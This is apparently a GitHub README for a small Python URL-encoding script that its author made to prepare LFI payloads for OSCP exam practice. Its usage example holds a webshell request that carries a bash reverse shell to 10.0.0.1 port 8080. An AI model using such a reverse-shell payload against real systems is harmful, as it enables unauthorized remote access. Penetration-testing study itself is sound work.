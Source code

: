 # URL-Encoder

*For educational and authorized security research purposes only.*

## Exploit Author
[@mbrenton](https://github.com/mbrenton)

## Description
Python script to URL encode a string/command. I made this to automate the process of encodng curl commands for LFI for the OSCP. Can either be used by specifying an argument, or will be prompted for user input if not specified.

## Usage
```bash
python3 url-encoder.py "curl http://root.me/webshell?cmd=bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
```

## Demo
![alt text](img/image.png)
